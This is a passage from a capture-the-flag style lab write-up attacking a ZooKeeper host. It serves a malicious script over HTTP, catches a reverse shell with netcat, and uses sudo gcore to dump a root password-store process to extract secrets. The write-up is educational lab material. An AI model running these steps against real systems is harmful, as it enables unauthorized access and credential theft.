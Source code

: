 
```
┌──(kali㉿kali)-[~]
└─$ python -m http.server 80               
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.164.98 - - [04/Mar/2024 22:48:33] "GET /zkServerBad.sh HTTP/1.1" 200 -
```

I reboot the server with the button on the UI:

![](./assets/reboot.png)

![](./assets/restart-after-modify-zkserver)

We get a shell... as `charles`...

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [192.168.45.199] from (UNKNOWN) [192.168.164.98] 56622
whoami
charles
```

I did try to set the uid to 0 in the python shell, hoping for the best, but no luck. Can't get root this way.

Back to LinPEAS results... we can run `gcore` as root. I read about `gcore` online and its a tool used to generate core dumps... sounds like a long shot, but let's try that on that `password-store` process that get's kicked off on reboot.

```
charles@pelican:/opt/zookeeper$ gcore 
gcore 
usage:  gcore [-a] [-o filename] pid

charles@pelican:/opt/zookeeper$ ps -aux | grep password-store
ps -aux | grep password-store
root       484  0.0  0.0   2276    72 ?        Ss   00:47   0:00 /usr/bin/password-store
charles   4642  0.0  0.0   6208   888 pts/4    S+   02:06   0:00 grep password-store
root      8118  0.0  0.0   2276    68 ?        Ss   01:12   0:00 password-store

charles@pelican:/opt/zookeeper$ sudo gcore 8118
sudo gcore 8118
0x00007fa0df6086f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7fff3e8d3ff0, remaining=remaining@entry=0x7fff3e8d3ff0) at ../sysdeps/unix/sysv/linux/nanosleep.c:28
28	../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.
```